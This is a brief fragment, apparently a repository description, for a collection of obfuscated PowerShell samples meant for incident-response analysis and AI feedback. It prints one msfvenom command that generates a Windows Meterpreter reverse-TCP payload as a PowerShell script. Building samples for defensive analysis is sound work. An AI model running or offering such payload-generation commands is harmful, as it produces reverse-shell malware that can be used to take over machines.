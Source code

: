 Sample powershell obf methods for IR analysis/AI feedback. 

Generated using the classic:
.\msfvenom.bat -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f psh-cmd -o C:\users\<user>\desktop\malware\pwsh_plain.ps1
